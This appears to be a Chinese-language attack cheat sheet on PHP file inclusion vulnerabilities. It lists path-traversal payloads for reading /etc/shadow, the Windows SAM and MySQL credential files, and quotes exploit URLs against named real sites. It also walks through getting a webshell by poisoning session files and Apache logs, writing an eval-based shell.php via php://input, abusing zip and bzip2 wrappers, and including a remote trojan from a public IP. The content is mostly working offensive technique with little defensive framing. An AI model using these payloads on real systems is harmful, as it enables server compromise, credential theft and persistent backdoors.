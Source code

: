 ![文件包含漏洞.png](https://cdn.nlark.com/yuque/0/2020/png/1345801/1588493752462-d6c14025-8203-4290-8a73-64f8a28e6142.png#align=left&display=inline&height=2319&originHeight=2319&originWidth=4169&size=951754&status=done&style=none&width=4169)<br />开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。<br /> <br />allow_url_fopen = On（是否允许打开远程文件）<br />allow_url_include = On（默认关闭，是否允许include/require远程文件）该选项为on便是允许 包含URL 对象文件等。<br /> <br />PHP版本<=5.2 可以使用%00进行截断。（能截断的php版本都小于5.3）
<a name="0VPms"></a>
## 漏洞挖掘payload
**Linux：**<br />../../../../../../../../etc/passwd      // 账户信息<br />etc/passwd%00 <br />....//....//etc/passwd<br />/etc/shadow      // 账户密码文件<br />/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件<br />/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置<br />/usr/local/app/php5/lib/php.ini // PHP相关配置<br />/etc/httpd/conf/httpd.conf // Apache配置文件<br />/etc/my.conf // mysql 配置文件<br />/etc/issue<br />/etc/group<br />/etc/hosts<br />/etc/motd<br />/etc/mysql/my.cnf<br />/proc/self/environ<br />/proc/version<br />/proc/cmdline<br />** **<br />**Windows**<br />c:\boot.ini // 查看系统版本<br />c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件<br />c:\windows\repair\sam // 存储Windows系统初次安装的密码<br />c:\ProgramFiles\mysql\my.ini // MySQL配置<br />c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码<br />c:\windows\php.ini // php 配置信息<br />** **<br />**乌云payload**<br />../../../../../../../../../../etc/passwd<br />../../../../../../../../../../home/img/odp/log/access_log<br />./../../../../../../../../etc/passwd%00<br />../../ierp/bin/prop.xml<br />[http://red.xunlei.com/index.php?id=../test.php%00&r=site/news](http://red.xunlei.com/index.php?id=../test.php%2500&r=site/news)<br />[pagename=znjl&url=/WEB-INF/web.xml&errpage=/WEB-INF/web.xml](http://**.**.**.**/LlfxServlet?lmbh=znjl_jbts&pagename=znjl&url=/WEB-INF/web.xml&errpage=/WEB-INF/web.xml)<br />[http://**.**.**.**//index.php?index=a&skin=&dataoptimize_html=/../../../favicon.ico](http://**.**.**.**//index.php?index=a&skin=&dataoptimize_html=/../../../favicon.ico)<br />..%2FWEB-INF%2Fweb.xml<br />../WEB-INF/mvc-servlet.xml
<a name="Mfkua"></a>
## 本地包含
<a name="pXH6V"></a>
### 包含同目录下的文件
?file=test.txt
<a name="WvvBw"></a>
### 目录遍历
?file=./../../test.txt
<a name="bG6Ke"></a>
### 包含图片马
先上传jpg图片木马，然后本地文件包含，如以下案例：<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1588493662194-0a2165cf-e521-4585-a8e4-d2dba1bcd543.png#align=left&display=inline&height=336&originHeight=506&originWidth=1124&status=done&style=none&width=746)
<a name="Tysq4"></a>
### Session文件包含
前提：<br />1.seesion存储的位置<br />2.sesion内容可控<br /> <br />Phpinfo中的session.save_path保存的是Session的存储位置。通过phpinfo的信息获取session.save_path为/var/lib/php。<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1588493662313-32314b25-5c81-4b57-8ae1-6c10e3c3245d.png#align=left&display=inline&height=115&originHeight=115&originWidth=554&status=done&style=none&width=554)<br />假设漏洞代码如下所示：<br /><?php<br />     session_start();<br />     $ctfs= $_GET['ctfs'];<br />     $_SESSION['username']=$ctfs;<br />?><br />可以利用GET型ctfs参数将而已代码写入Session文件中，然后再利用文件包含漏洞包含此Session文件,向系统中传入恶意代[http://127.0.0.1/test.php?ctfs=<?php](http://127.0.0.1/test.php?ctfs=%3c?php) phpinfo(); ?>  将php语句写入session中<br />[http://127.0.0.1/test.php?filename=C:\phpStudy\PHPTutorial\tmp\tmp\sess_c3b4faa1f3b28c602c862bdf366fd92c](http://127.0.0.1/test.php?filename=C:\phpStudy\PHPTutorial\tmp\tmp\sess_c3b4faa1f3b28c602c862bdf366fd92c) **包含session文件session文件名(真正的文件名默认都有个前缀就是sess_)**<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1588493662481-432d2b3a-0a28-4284-92eb-909b6cf099fe.png#align=left&display=inline&height=114&originHeight=114&originWidth=554&status=done&style=none&width=554)<br /> 
<a name="mPupu"></a>
### 本地包含配合apache日志拿shell
apache日志分为access.log与error.log，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:[_http://www.xxx.com/_](http://www.xxx.com/)_<?php eval([$_POST]);?>_则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。<br /> 
<a name="hMRRS"></a>
### 利用/proc/self/environ进行包含
![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1588493662619-fc20895b-9900-47cc-9835-163e52ac3053.png#align=left&display=inline&height=470&originHeight=503&originWidth=798&status=done&style=none&width=746)<br /> <br /> <br /> 
<a name="Rsq0a"></a>
### php://input（写入木马）
前提：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）<br /> <br /><?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?><br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1588493662735-edf90116-8def-4aa7-b516-53d088943314.png#align=left&display=inline&height=182&originHeight=182&originWidth=546&status=done&style=none&width=546)<br /> 
<a name="RTP74"></a>
### zip://, bzip2://, zlib://
协议在双off的情况下也可以正常使用；<br />allow_url_fopen ：off/on<br />allow_url_include：off/on<br />**思路：（也是上传之后包含文件）**<br />先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。<br />bzip2://协议<br />使用方法：<br />compress.bzip2://file.bz2<br />测试现象：<br />[http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg](http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg)<br />or<br />[http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg](http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg)<br />zlib://协议<br />使用方法：<br />compress.zlib://file.gz<br /> <br />测试现象：<br />[http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg](http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg)<br />or<br />[http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg](http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg)<br /> 
<a name="Bu3MX"></a>
## 远程文件包含
远程文件包含的时候一句话木马后缀不能为php。<br />需要开启allow_url_include = On<br />[http://127.0.0.1/test.php?filename=http://公网IP/muma.txt](http://127.0.0.1/test.php?filename=http://公网IP/muma.txt)<br /> 
<a name="E2W6r"></a>
## 伪协议
Ctf常用<br />?action=php://filter/read=convert.base64-encode/resource=login.php  (Base64加密)<br /> 
<a name="Krhuh"></a>
## 好文章
[https://mp.weixin.qq.com/s/IT6bbaG7zBbnrvcNPYr1_w](https://mp.weixin.qq.com/s/IT6bbaG7zBbnrvcNPYr1_w)
